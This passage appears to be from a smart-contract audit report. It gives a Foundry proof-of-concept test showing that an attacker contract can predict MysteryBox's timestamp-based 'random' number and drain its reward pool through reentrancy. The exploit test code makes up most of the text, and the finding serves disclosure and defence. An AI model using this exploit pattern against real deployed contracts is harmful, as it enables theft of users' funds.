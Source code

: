 ```javascript 
}
```
**Also add this attack contract to the `TestMysteryBox.t.sol` file**

```javascript
/// other imports as is
+ import "../src/Attacker.sol";
///existing code

function setUp() public {
        owner = makeAddr("owner");
        user1 = address(0x1);
        user2 = address(0x2);

        vm.prank(owner);
        vm.deal(owner, 1 ether);
-       mysteryBox = new MysteryBox();       
+        mysteryBox = new MysteryBox{value: 0.1 ether}();
        console.log("Reward Pool Length:", mysteryBox.getRewardPool().length);
    }
```

```javascript
function testReentrancy() public {
        vm.prank(address(0x6969));
        AttackerContract attacker = new AttackerContract(address(mysteryBox), msg.sender);

        uint256 timestamp = block.timestamp;
        address sender = address(attacker);
        uint256 predictedRandom = uint256(keccak256(abi.encodePacked(timestamp, sender))) % 100;
        console.log("winning number:", predictedRandom);
        vm.deal(address(mysteryBox), 2 ether);
        vm.deal(address(attacker), 0.1 ether);
        attacker.buyBox();
        console.log("Contract balance before attack:", address(mysteryBox).balance);
        console.log("attacker balance before attack:", address(attacker).balance);
        attacker.attack();
        console.log("Contract balance after attack:", address(mysteryBox).balance);
        console.log("attacker balance after attack:", address(attacker).balance);
    }
```

After running test, the following result follows:

![alt text](image-2.png)


### Impact

Attacker is able to drain a more than deserved portion of assets in the pool.

### Tools Used
